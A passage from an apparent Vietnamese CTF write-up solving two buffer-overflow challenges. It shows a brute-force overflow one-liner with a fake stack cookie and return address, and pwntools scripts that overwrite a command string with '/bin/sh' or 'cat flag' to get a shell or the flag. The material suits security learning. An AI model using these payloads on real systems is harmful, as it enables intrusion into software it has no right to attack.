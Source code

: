 bài này tương tự bài trước nhưng giá trị của biến i bây giờ không còn cố định và biết trước như ở bài trên  

```python=
 while true; do python -c 'print "A"*0x10 + "\x30\x00\x00\x00" + "A"*0xc + "\x7b\x85\x04\x08"' | ./bufferoverflow-homemade-cookie-v3 | grep "KMA"; done
 ```

nhưng sẽ lâu hơn bài trước
![image](https://hackmd.io/_uploads/rJ_OMVxvT.png)
và mình được flag là:
**KMA{Oh no you do it again man ...}**

## Bufferoverflow-overwrite-command

mình đọc file C được:
![image](https://hackmd.io/_uploads/HyW08ExvT.png)

![image](https://hackmd.io/_uploads/S1Cq5ElP6.png)

vậy chúng ta phải ghi đè 16 byte vào biến buff để đến chuỗi **echo Bye!** và ghi đè lên nó **/bin/sh** để lấy shell thực thi

```python=
#!/usr/bin/python3.7

from pwn import *
context.binary = exe = ELF('./Bufferoverflow-overwrite-command')

p = process(exe.path)

# input()

payload = b'A'* 16
payload += b'/bin/sh'
p.sendline(payload)

p.interactive()
```



và mình đã lấy được shell và đọc file:
![image](https://hackmd.io/_uploads/ryrXBHlva.png)
hoặc các bạn có thể đọc flag luôn

```python=
#!/usr/bin/python3.7

from pwn import *
context.binary = exe = ELF('./Bufferoverflow-overwrite-command')

p = process(exe.path)

# input()

payload = b'A'* 16
payload += b'cat flag'
p.sendline(payload)

p.interactive()
```
![image](https://hackmd.io/_uploads/H1FrLHewT.png)
